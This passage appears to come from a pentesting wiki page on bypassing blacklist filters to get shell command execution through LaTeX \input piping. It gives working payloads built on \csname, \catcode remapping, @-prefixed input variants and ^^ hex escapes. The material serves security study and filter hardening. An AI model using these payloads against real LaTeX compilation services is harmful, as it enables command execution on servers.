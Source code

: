 Some dangers LaTeX commands might be blocked by a blacklist filter, which is hard to make because there are many tricks to circumvent such filters with alternative methods.&#x20;

The following paper explores many different ideas for attacking LaTeX files and has some tricks to evading filters (**4.5**):

{% embed url="https://www.researchgate.net/publication/234829253_Are_text-only_data_formats_safe_or_use_this_LATEX_class_file_to_Pwn_your_computer" %}
Exploring the attack surface of LaTeX files including techniques for Evading Filters
{% endembed %}

One powerful trick if commands are blocked using strings like `"\input"` is to use `\csname` which can represent a command without putting a `\` in front of the command's name:

```latex
\csname input\endcsname{|"id > /tmp/pwned"}
% === equivalent to ===
\input{|"id > /tmp/pwned"}
```

Another very powerful technique is using [`\catcode`](https://en.wikibooks.org/wiki/TeX/catcode) to change the meaning (**cat**egory) of characters. For example, we could change the `X` character to mean "**escape**" just like `\` would regularly. This is another way to evade filters that find commands prefixed with backslashes, but can also be used to replace **any other special character** (see the link for a list of values).&#x20;

```latex
\catcode`X=0                % change meaning of X to 'escape character'
Xinput{|"id > /tmp/pwned"}  % use X as an escape character to run \input
```

Using the special [`\makeatletter`](https://tex.stackexchange.com/a/8353) (make `@` letter) you can change the category code of specifically the `@` character to use some special encodings of `\input`:

```latex
\makeatletter               % change meaning of @ to 'letter'
\@input{|"id > /tmp/pwned}
\@@input|"id > /tmp/pwned"
\@iinput{|"id > /tmp/pwned}
\@input@{|"id > /tmp/pwned}
% === equivalent to ===
\catcode`\@=11
```

Using `^^XX` hex escape sequences you can also represent **any** blocked characters literally, meaning that if this way is not blocked, you can evade **any filter at all** ([CyberChef](https://gchq.github.io/CyberChef/#recipe=To\_Hex\('None',0\)Find\_/\_Replace\(%7B'option':'Regex','string':'..'%7D,'%5E%5E$%26',true,false,true,false\)\&input=XGlucHV0e3wiaWQgPiAvdG1wL3B3bmVkIn0)).&#x20;

{% code overflow="wrap" %}
```latex
% escaped \
^^5cinput{|"id > /tmp/pwned"}
% escaped everything
^^5c^^69^^6e^^70^^75^^74^^7b^^7c^^22^^69^^64^^20^^3e^^20^^2f^^74^^6d^^70^^2f^^70^^77^^6e^^65^^64^^22^^7d
% custom character by changing category
\catcode`X=7                  % change meaning of X to 'superscript' (^)
XX5cinput{|"id > /tmp/pwned}  % replace ^^ with XX
```
{% endcode %}

